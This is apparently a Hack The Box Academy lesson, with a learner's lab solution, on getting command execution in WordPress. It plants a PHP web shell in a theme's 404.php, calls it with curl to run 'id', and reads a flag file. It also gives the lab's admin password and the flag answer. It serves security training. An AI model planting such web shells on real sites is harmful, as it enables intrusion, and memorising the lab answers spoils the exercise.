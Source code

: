 ## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![WordPress theme editor showing Transportex stylesheet with theme details and code.](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![WordPress theme editor showing Twenty Seventeen stylesheet with theme details and code.](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell-session
KaoruRyusaki@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```





#### Question

Use the credentials for the admin user [admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

* Access the WordPress webpage by using the ip and port given by the HTB server and the admin user and pass.
* Once there click on the Appearance tab, then the Themes and finally chose any of the obsolete themes downloaded on the webpage, I personally chose the " Twenty Seventeen "
* Click on the Activate button and then click on the Theme Editor tab, once there browse on the theme files and click on the " 404 template ", once there, under the " \<php "  tag paste this piece of code " system($\_GET\['cmd']); " and update the file.
* Once all of that is done, go to your own terminal and run this command " curl -X GET "http:\//\<ip given>:\<port given>/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt "
* HTB{rc3_By_d3s1gn}